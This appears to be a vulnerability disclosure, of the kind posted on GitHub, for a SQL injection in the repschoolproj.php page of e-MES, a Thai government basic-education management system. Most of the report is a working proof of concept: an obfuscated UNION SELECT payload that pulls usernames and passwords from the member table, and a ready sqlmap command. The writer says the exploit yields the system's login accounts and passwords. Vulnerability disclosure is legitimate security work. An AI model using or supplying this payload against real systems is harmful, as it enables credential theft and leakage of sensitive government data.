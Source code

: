 `Describe：`
E-mes is an education management system of Thailand's basic education department. It has a serious SQL injection vulnerability, through which many sensitive information in the database can be obtained. This affects the whole e-mes version. As this is a system of the Thai government department, it can't be found on GitHub for the time being  

`Official documents`
>https://www.br2.go.th/attachments/article/2902/%E0%B9%81%E0%B8%9A%E0%B8%9A%E0%B8%A3%E0%B8%B2%E0%B8%A2%E0%B8%87%E0%B8%B2%E0%B8%99%E0%B8%82%E0%B9%89%E0%B8%AD%E0%B8%A1%E0%B8%B9%E0%B8%A5%E0%B9%83%E0%B8%99%E0%B8%A3%E0%B8%B0%E0%B8%9A%E0%B8%9A%20e-MES.pdf

`Attack Vectors`
> A SQL injection vulnerability exists in the school information query interface (repschoolproj.php) of the EMS system of the Office of the Thai Basic Education Commission, which can lead to important data leakage.This website is owned by the Thai government, and if it is not repaired in time, it may lead to information leakage.

`POC:` 
> http://localhost/eme/repschoolproj.php?claster=school&idarea=648 repschoolproj.php?claster=school&idarea=648 /* */uNiOn /* */select/**/ 1,1,user,1,1,1,1,1,2,3,4,5,6,7,1,1,9,10,passwd,12,13,1,1,1,1,user(),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1 from member#  
> This exp can get the login account and password of the e-mes system  
`photo proof`
![图片](https://user-images.githubusercontent.com/110643835/188271982-779a174a-41e3-47dd-b9eb-3ed62e59b4bb.png)
![图片](https://user-images.githubusercontent.com/110643835/188272051-c3890348-ee21-472e-b10e-2519c4ffd64a.png)


Or use sqlmap for injection
> POC: sqlmap.py -u "http://localhost/~eme54/repschoolproj.php?claster=school&idarea=648*"

